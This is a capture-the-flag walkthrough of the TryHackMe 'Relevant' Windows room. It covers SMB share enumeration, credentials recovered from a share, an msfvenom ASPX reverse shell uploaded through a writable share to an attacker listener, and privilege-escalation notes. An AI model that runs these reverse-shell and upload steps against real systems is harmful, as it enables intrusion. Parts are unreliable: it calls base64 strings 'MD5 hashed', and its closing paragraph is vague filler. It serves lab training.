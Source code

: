 ```yaml
---
title: TryHackMe - Relevant Room Walkthrough
author: skullhat
date: '2023-06-17 00:34:00 +0800'
comments: true
categories: [thm, ctf]
tags: [windows, active_directory]
---
```


## Scope

- The client has asked that you secure two flags (no location provided) as proof of exploitation:
	- User.txt
	- Root.txt
- Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first  
- Locate and note all vulnerabilities found
- Submit the flags discovered to the dashboard
- Only the IP address assigned to your machine is in scope
- Find and report ALL vulnerabilities (yes, there is more than one path to root)

## Basic OS Detection

Before diving into any further analysis, it's essential to initiate a preliminary assessment by running a simple ping command on the target host. This initial step can provide valuable information about the host's operating system and network characteristics. Pay close attention to the Time to Live (TTL) value, as it often reveals details about the host's underlying OS.

```bash
ping -c 1 10.10.97.109
PING 10.10.97.109 (10.10.97.109) 56(84) bytes of data.
64 bytes from 10.10.97.109: icmp_seq=1 ttl=127 time=285 ms
```


Based on the basic OS detection performed, it's likely that the target machine is running a Windows operating system. The TTL value by default is 128 in Windows machines.

## Enumeration using nmap

Running nmap with -sC for default scripts, -sV enumerate version of every running service, -T4 is running script faster, -vvv to show me all the open ports as it is found and -oA for outputing all formats in case I want to pass it to another tool.

```bash
nmap -sCV -O -T4 -vvv -oA nmap/relevent 10.10.97.109
```
### Port Scan Results

The scan identified several open ports on the host:

- Port 80/tcp: Open, running Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) with various HTTP methods supported. The web server is likely running on Windows Server and presents itself as "IIS Windows Server."

- Port 135/tcp: Open, running Microsoft Windows RPC.

- Port 139/tcp: Open, running Microsoft Windows netbios-ssn.

- Port 445/tcp: Open, running Windows Server 2016 Standard Evaluation 14393 with the service "microsoft-ds."

- Port 3389/tcp: Open, possibly running ms-wbt-server. An SSL certificate is present with the commonName "Relevant."

### Operating System Detection

The scan provides an educated guess about the host's operating system, suggesting it is likely running Microsoft Windows 2016, 2012, or 2008. However, it notes that the OS fingerprint is not ideal due to a missing closed TCP port.

## SMB Protocol on 445

### Try Anonymous Login
- Try null authentication, but getting nothing. Based on nmap output the `gust` account can access the shares.

```bash
crackmapexec smb 10.10.97.109 -u "" -p "" --shares
```

- When trying `gust` has juicy folder called nt4wrksv with read and write permissions.

```bash
crackmapexec smb 10.10.97.109 -u "gust" -p "" --shares
```

![CME](/assets/img/uploads/20230614185247.png)

- Found `passowrds.txt` then create smb directory and move it there.

``` bash
crackmapexec smb 10.10.176.144 -u "gust" -p "" -M spider_plus
smbclient //10.10.176.144/nt4wrksv -U ""
```

- The users passwords was MD5 hashed.

 ## Crack The Hash
 
`Qm9iIC0gIVBAJCRXMHJEITEyMw==`
`QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk`

The Plain Text
Bob:!P@$$W0rD!123
Bill:Juw4nnaM4n420696969!$$$                                          

## Getting a shell

1. Try bill account on `evil-winrm` and can not access. Also try on RDP and failed. So it must be fake!
2. found that port 49663 has also a web server and run `gobsuter` to enumerate directories and found one with same `smb` share name! 

- http://10.10.247.115:49663/nt4wrksv/shell.aspx


``` bash
msfvenom -p windows/x64/shell_reverse_tcp LPORT=9001 LHOST=10.9.78.51  -f aspx -o shell.aspx 
smbclient //10.10.247.115/nt4wrksv -U 'bob'
smb: \> put shell.aspx
sudo rlwrap nc -lnvp 9001
```

## Local Enumeration 

``` powershell
whoami /all
systeminfo
```

![Privilages](/assets/img/uploads/20230614214734.png)

## PrivEsc

While investigation, I've uncovered the presence of the powerful `SeImpersonatePrivilege`. This privilege opens up an opportunity to leverage a tool called [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0), which takes advantage of Impersonation Privileges. Specifically, it exploits the `SeImpersonatePrivilege` on Windows 10 and Server 2016/2019, allowing for a privilege escalation from LOCAL/NETWORK SERVICE to SYSTEM-level access. This discovery sheds light on a significant security vulnerability within these Windows systems.

![Privilages_is_500](/assets/img/uploads/20230614224001.png)

In the realm of cybersecurity, vigilance is paramount, and it's reassuring to know that your Antivirus (AV) has successfully identified and thwarted a potentially harmful "Potatoes attack." However, as we navigate the intricate landscape of security testing and ethical hacking, occasional roadblocks can arise. Currently, in the world of Kali Linux, there's a particular challenge hindering the execution of the EternalBlue MS17-010 exploit. This exploit, notorious for its role in significant cyber incidents, relies on a specific set of conditions to work effectively. Identifying and overcoming these obstacles is a crucial aspect of the cybersecurity journey, ensuring that we are always prepared to address both detected threats and technical hurdles in our pursuit of a safer digital environment.
